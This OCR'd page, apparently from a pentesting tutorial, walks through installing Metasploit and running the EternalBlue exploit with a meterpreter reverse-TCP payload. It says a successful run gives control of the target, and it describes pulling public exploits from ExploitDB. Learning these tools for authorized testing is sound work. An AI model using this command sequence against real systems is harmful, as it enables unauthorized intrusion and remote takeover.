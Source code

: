 **Getting Started with Metasploit**:

1. **Installation**:
   - On Kali Linux, Metasploit is pre-installed. If you need to install it on another system:
   
   ```bash
   sudo apt update
   sudo apt install metasploit-framework
   ```

2. **Basic Usage**:
   - Launch Metasploit:

   ```bash
   msfconsole
   ```

   - Search for an exploit:

   ```bash
   search type:exploit platform:windows
   ```

   - Select an exploit:

   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

   - Set the target and payload:

   ```bash
   set RHOSTS <target IP>
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your IP>
   ```

   - Run the exploit:

   ```bash
   exploit
   ```

   - If successful, you’ll get a meterpreter session, allowing you to control the target system.

### 2. **ExploitDB**

**Overview**:
ExploitDB is a massive archive of public exploits and proof-of-concept codes. While it’s not a tool in itself, it’s an invaluable resource for finding exploits that you can use with other tools like Metasploit.

**Using ExploitDB**:

1. **Search for Exploits**:
   - You can search for exploits directly on the [ExploitDB website](https://www.exploit-db.com/) by platform, type, or CVE number.

2. **Download and Use Exploits**:
   - Once you find an exploit, you can download it and use it with your preferred exploitation framework. For instance, many exploits from ExploitDB can be directly imported into Metasploit.
